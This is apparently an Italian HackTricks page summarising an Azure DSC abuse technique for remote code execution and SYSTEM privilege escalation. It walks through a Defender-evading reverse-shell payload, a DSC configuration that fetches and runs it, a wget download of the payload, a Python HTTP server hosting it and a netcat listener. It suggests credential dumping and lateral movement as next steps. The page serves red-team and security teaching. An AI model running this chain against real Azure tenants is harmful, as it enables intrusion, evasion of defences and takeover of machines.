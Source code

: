 # Az - State Configuration RCE

<details>

<summary><strong>Impara l'hacking di AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PACCHETTI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di esclusive [**NFT**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

**Controlla l'articolo completo su: [https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)**

### Riassunto della preparazione dell'infrastruttura del server remoto (C2) e dei passaggi

#### Panoramica
Il processo prevede la configurazione di un'infrastruttura di server remoto per ospitare un payload modificato di Nishang `Invoke-PowerShellTcp.ps1`, chiamato `RevPS.ps1`, progettato per eludere Windows Defender. Il payload viene servito da una macchina Kali Linux con IP `40.84.7.74` utilizzando un semplice server HTTP Python. L'operazione viene eseguita attraverso diversi passaggi:

#### Passaggio 1 — Creazione dei file
- **File richiesti:** Sono necessari due script PowerShell:
1. `reverse_shell_config.ps1`: Un file di configurazione dello stato desiderato (DSC) che recupera ed esegue il payload. È ottenibile da [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1`: Uno script per pubblicare la configurazione nella VM, disponibile su [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
- **Personalizzazione:** Le variabili e i parametri in questi file devono essere adattati all'ambiente specifico dell'utente, inclusi i nomi delle risorse, i percorsi dei file e gli identificatori del server/payload.

#### Passaggio 2 — Comprimere il file di configurazione
- Il file `reverse_shell_config.ps1` viene compresso in un file `.zip`, rendendolo pronto per il trasferimento nell'account di archiviazione di Azure.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Passo 3 — Imposta il contesto di archiviazione e carica
- Il file di configurazione compresso viene caricato in un contenitore di archiviazione Azure predefinito, azure-pentest, utilizzando il cmdlet Set-AzStorageBlobContent di Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Passo 4 — Preparare Kali Box
- Il server Kali scarica il payload RevPS.ps1 da un repository GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- Lo script viene modificato per specificare la VM Windows di destinazione e la porta per la reverse shell.

#### Step 5 — Pubblicazione del file di configurazione
- Il file di configurazione viene eseguito, risultando nello script della reverse shell che viene distribuito nella posizione specificata sulla VM Windows.

#### Step 6 — Host del payload e configurazione del listener
- Viene avviato un server Python SimpleHTTPServer per ospitare il payload, insieme a un listener Netcat per catturare le connessioni in ingresso.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- Il task pianificato esegue il payload, ottenendo privilegi di livello SYSTEM.

#### Conclusioni

L'esecuzione di successo di questo processo apre numerose possibilità per ulteriori azioni, come il dumping delle credenziali o l'espansione dell'attacco a più VM. La guida incoraggia a continuare a imparare e ad essere creativi nel campo di Azure Automation DSC.

<details>

<summary><strong>Impara l'hacking di AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PACCHETTI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di esclusive [**NFT**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai repository github di** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
